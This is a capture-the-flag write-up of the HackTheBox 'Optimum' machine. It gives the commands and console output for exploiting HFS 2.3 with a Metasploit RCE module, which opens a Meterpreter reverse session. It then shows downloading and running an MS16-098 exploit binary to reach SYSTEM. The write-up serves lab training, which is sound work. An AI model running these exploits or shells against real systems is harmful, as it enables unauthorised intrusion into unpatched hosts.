 ```yaml
---
title: HackTheBox - Optimum
categories: writeups
layout: post
date: 2020-07-20 23:21 -0500
---
```

![Optimum](/assets/images/HTBoxes/Optimum/Optimum.png)

## Summary

Optium is a fairly straightforward easy rated Windows box.  It involves simple enumeration and exploitation via a readily available metasploit module for a foothold.  For privilege escalation, it requires enumeration of patch levels of the system to determine a relevant exploit for escalation.

## Walkthrough

### Enumeration

Ran the usual nmap ``nmap -A -T4 -v 10.10.10.8``

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I went to the website and saw it is running [HTTP File Server software](https://www.rejetto.com/hfs/) v2.3.

![Optimum-website](/assets/images/HTBoxes/Optimum/optimum-website.png)

I did a ``searchsploit hfs`` and found this version seems to be vulnerable.

### Foothold

I loaded up msfconsole via ``msfconsole -q`` and found that there is a RCE metasploit module that we can use to gain a foothold.

```console
msf5 > search hfs

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2
014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.2
SRVHOST => 10.10.14.2
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Using URL: http://10.10.14.2:8080/Kzl4K6JceE
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Kzl4K6JceE
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49162) at 2020-07-20 21:32:54 -0500
[!] Tried to delete %TEMP%\ytefKHKvAX.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

### User

I listed the kostas desktop folder and there was a user.txt.  No need to pivot so I grabbed the user.txt sitting in the Desktop folder.

### Root

Now that I had user it was time to enumerate to find a path to admin.  I used the windows exploit suggester [tool]( https://github.com/GDSSecurity/Windows-Exploit-Suggester).

To gather the systeminfo for it I just used the meterpreter session:

```console
meterpreter > execute -f cmd.exe -a "/c systeminfo > systeminfo.txt"
Process 2072 created.
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-07-27 06:31:27 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 05:58:52 -0600  hfs.exe
100666/rw-rw-rw-  3334    fil   2020-07-27 07:16:36 -0500  systeminfo.txt
100444/r--r--r--  32      fil   2017-03-18 07:13:18 -0500  user.txt.txt

meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> systeminfo.txt
[*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> systeminfo.txt
[*] download   : systeminfo.txt -> systeminfo.txt
```

To get the script to run, it requires python2 and a library dependency.  I suggest using ``pipenv`` in the cloned folder.

```console
pipenv --python 2.7
pipenv install xlrd
pipenv run python2 ./windows-exploit-suggester.py --database 2020-07-20-mssb.xls --systeminfo systeminfo.txt
```

After executing the script, there's quite a few suggestions.  The one in the official HTB writeup is MS016-032.  However, I had issues trying to get it to work from metasploit.  After some googling I decided to try MS16-098.

``wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe``

Back in my meterpreter session I did a ``upload 41020.exe`` then opened a shell to execute it.

```console
meterpreter > shell
Process 2336 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

After this I simply went to the Desktop directory and grabbed the root.txt flag.

## Lessons Learned

On this box:

* Refreshed metasploit module searching and exploit execution
* Learned about a new python based windows priv esc tool (the suggester tool)
